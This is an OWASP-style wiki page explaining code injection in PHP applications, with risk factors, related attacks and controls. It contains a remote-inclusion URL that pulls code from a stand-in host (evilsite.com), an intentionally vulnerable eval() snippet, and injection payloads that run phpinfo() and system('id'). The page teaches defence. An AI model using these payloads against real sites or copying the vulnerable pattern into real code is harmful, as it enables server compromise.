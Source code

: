 ```yaml
---

layout: col-sidebar
title: Code Injection
author: 
contributors: 
permalink: /attacks/Code_Injection
tag: attack, Code Injection
auto-migrated: 1

---
```




Last revision (mm/dd/yy): **//**

## Description

Code Injection is the general term for attack types which consist of
injecting code that is then interpreted/executed by the application.
This type of attack exploits poor handling of untrusted data. These
types of attacks are usually made possible due to a lack of proper
input/output data validation, for example:

  - allowed characters (standard regular expressions classes or custom)
  - data format
  - amount of expected data

Code Injection differs from [Command
Injection](Command_Injection "wikilink") in that an attacker is only
limited by the functionality of the injected language itself. If an
attacker is able to inject PHP code into an application and have it
executed, he is only limited by what PHP is capable of. Command
injection consists of leveraging existing code to execute commands,
usually within the context of a shell.

## Risk Factors

  - These types of vulnerabilities can range from very hard to find, to
    easy to find
  - If found, are usually moderately hard to exploit, depending of
    scenario
  - If successfully exploited, impact could cover loss of
    confidentiality, loss of integrity, loss of availability, and/or
    loss of accountability

## Examples

**Example 1**

If an application passes a parameter sent via a GET request to the PHP
include() function with no input validation, the attacker may try to
execute code other than what the developer had in mind.

The URL below passes a page name to the include() function.

<http://testsite.com/index.php?page=contact.php>

The file "evilcode.php" may contain, for example, the phpinfo() function
which is useful for gaining information about the configuration of the
environment in which the web service runs. An attacker can ask the
application to execute his PHP code using the following request:

<http://testsite.com/?page=http://evilsite.com/evilcode.php>

**Example 2**

When a developer uses the PHP eval() function and passes it untrusted
data that an attacker can modify, code injection could be possible.

The example below shows a dangerous way to use the eval() function:

    $myvar = "varname";
    $x = $_GET['arg'];
    eval("\$myvar = \$x;");

As there is no input validation, the code above is vulnerable to a Code
Injection attack.

For example:

    /index.php?arg=1; phpinfo()

While exploiting bugs like these, an attacker may want to execute system
commands. In this case, a code injection bug can also be used for
command injection, for example:

    /index.php?arg=1; system('id')

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category:
    Internet_attacker](:Category:_Internet_attacker "wikilink")
  - [Internal_software_developer](Internal_software_developer "wikilink")

## Related [Attacks](Attacks "wikilink")

  - [Command Injection](Command_Injection "wikilink")
  - [SQL Injection](SQL_Injection "wikilink")
  - [LDAP injection](LDAP_injection "wikilink")
  - [SSI injection](Server-Side_Includes_%28SSI%29_Injection "wikilink")
  - [Cross-site Scripting
    (XSS)](Cross-site_Scripting_\(XSS\) "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [:Category: Input Validation
    Vulnerability](:Category:_Input_Validation_Vulnerability "wikilink")

## Related [Controls](Controls "wikilink")

  - [Input Validation](Input_Validation "wikilink")
  - [Output Validation](Output_Validation "wikilink")
  - [Canonicalization](Canonicalization "wikilink")

## References

  - [CWE-77: Command
    Injection](http://cwe.mitre.org/data/definitions/77.html)
  - [CWE-78: OS Command
    Injection](http://cwe.mitre.org/data/definitions/78.html)
  - [CWE-89: SQL
    Injection](http://cwe.mitre.org/data/definitions/77.html)

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[Category:Injection](Category:Injection "wikilink")
[Category:Attack](Category:Attack "wikilink") [Category:Injection
Attack](Category:Injection_Attack "wikilink")